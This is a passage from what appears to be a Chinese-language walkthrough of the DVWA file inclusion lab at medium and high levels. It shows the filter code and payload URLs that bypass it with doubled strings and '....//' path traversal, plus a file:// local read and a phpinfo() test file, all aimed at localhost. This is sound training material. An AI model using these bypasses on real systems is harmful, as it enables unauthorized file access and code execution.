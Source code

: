 也可以通过php协议读取。

![image-20220123155108903](https://s2.loli.net/2022/01/23/drFse42uZlUKTvQ.png)

**2.medium**

对输入进行了验证，对不法字符进行替换。

```php
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

`str_replace`函数是不安全的，可以采用双写进行绕过。

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=htthttp://p://127.0.0.1//123.txt
```

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=....//....//....//123.txt
```

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=..././..././..././123.txt
```

**3.high**

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file://D://wamp//install.txt
```

payload如下：

新建文件123.txt

```txt
<?php
phpinfo();
?>
hello world
@@@@@
```
